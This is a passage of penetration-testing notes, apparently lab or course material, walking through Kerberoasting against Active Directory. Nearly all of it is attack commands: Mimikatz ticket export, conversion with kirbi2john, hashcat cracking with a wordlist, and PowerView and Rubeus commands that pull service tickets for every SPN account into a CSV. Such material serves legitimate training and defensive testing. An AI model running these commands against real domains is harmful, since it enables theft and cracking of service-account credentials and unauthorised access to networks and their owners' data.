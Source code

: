 #### Extracting Tickets from Memory with Mimikatz
```
mimikatz # base64 /out:true
mimikatz # kerberos::list /export  

```

##### Preparing the Base64 Blob for Cracking
```
$ echo "<base64 blob>" |  tr -d \\n 
```

##### Placing the Output into a File as .kirbi
```
$ cat encoded_file | base64 -d > sqldev.kirbi
```

##### Extracting the Kerberos Ticket using kirbi2john.py
```
$ python2.7 kirbi2john.py sqldev.kirbi
```

##### Modifiying crack_file for Hashcat
```
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

##### Cracking the Hash with Hashcat
```
$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

### Automated / Tool Based Route
#### Using PowerView to Extract TGS Tickets
```
PS > Import-Module .\PowerView.ps1
PS > Get-DomainUser * -spn | select samaccountname
```

##### Using PowerView to Target a Specific User
```
PS > Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

##### Exporting All Tickets to a CSV File
```
PS > Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

##### Viewing the Contents of the .CSV File
```
PS > cat .\ilfreight_tgs.csv
```

We can also use Rubeus from GhostPack to perform Kerberoasting even faster and easier. Rubeus provides us with a variety of options for performing Kerberoasting.
#### Using Rubeus
```
PS > .\Rubeus.exe
```

